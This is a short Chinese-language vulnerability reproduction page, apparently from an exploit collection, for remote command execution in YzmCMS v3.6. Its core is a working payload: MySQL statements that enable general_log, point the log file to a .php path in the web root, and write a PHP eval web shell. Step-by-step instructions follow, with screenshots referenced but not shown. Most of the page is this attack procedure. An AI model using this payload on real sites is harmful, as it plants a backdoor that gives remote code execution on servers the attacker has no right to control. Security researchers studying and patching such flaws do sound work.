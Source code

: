 ```yaml
---
title: "YzmCMS v3.6 远程命令执行"
id: zhfly3303
---
```


# YzmCMS v3.6 远程命令执行

## 一、漏洞简介

## 二、漏洞影响

YzmCMS v3.6

## 三、复现过程

Payload：

```
show variables like '%general%';   #查看配置
set global general_log = on;        #开启general log模式
set global general_log_file =CONCAT("E:\\study\\WWW\\YzmCMS\\test.","php"); 
select '<?php eval($_POST[cmd]);?>';   #写入shell 
```

##### 1、执行sql语句，查看mysql日志配置情况

![image](../img/973de0308b0b5b1933c9c56b257e1b8e.png)

#### 2、根据日志文件位置或者默认站点路径来推测站点目录，可用load_file()函数来测试，确认站点目录位置。或者通过phpinfo()等信息收集获取站点目录。

![image](../img/023e936ec7fcb260e5e66ab100228688.png)

#### 3、分别执行下列sql语句，将脚本代码写入文件：

```
set global general_log = on; `set global general_log_file =CONCAT(“E:\study\WWW\YzmCMS\test.”,“php”); select ‘<?php eval($_POST[cmd]);?>’;` 
```

![image](../img/2f2b3388652c844952886f2df0041a81.png)

#### 4、提交参数，执行脚本代码：

![image](../img/d538301de6795547d78c5b6b1aad0f11.png)